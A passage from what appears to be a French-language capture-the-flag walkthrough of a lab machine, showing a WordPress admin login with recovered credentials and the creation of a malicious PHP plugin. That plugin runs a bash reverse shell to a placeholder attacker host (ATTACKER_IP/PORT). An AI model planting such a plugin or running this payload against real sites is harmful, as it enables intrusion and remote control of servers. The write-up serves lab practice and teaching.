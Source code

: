**Explication de la commande : Nous venons de changer le -L en -P et vice versa pour les arguments; sinon, il s’agit de la même commande.**

Parfait ! Nous avons maintenant les informations de connexion complètes → elliot:ER28-0652

## Exploitation

Pour continuer, nous pouvons essayer de nous connecter à WordPress.

<img src="./screenshots/4.png" width="80%">

Connexion réussie ! Nous avons maintenant accès au panneau d'administration de WordPress → Jetons un coup d'œil pour voir quelles informations nous pouvons recueillir.

Après avoir regardé autour, tout ce que j'ai trouvé était :

- Il y a deux utilisateurs : **elliot** qui est administrateur et **mich05654** juste un abonné
- Nous semblons avoir un accès complet : nous pouvons donc ajouter des thèmes, des plugins, etc.

La première chose à laquelle j'ai pensé était d’envoyer un plugin/thème malveillant pour obtenir un reverse shell sur la machine cible.

Créons d'abord notre fichier malveillant.

```bash
touch php-reverse-shell.php
```

À l'intérieur, nous pouvons écrire un simple payload malveillant en PHP → Cela nous permettra d'obtenir un reverse shell sur la machine cible.

```php
<?php
/*
Plugin Name: PHP Reverse Shell
Plugin URI: <http://fakeurl.xyz/>
Description: Just a test plugin ;)
Version: 1.0
Author: MRx0
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>

```
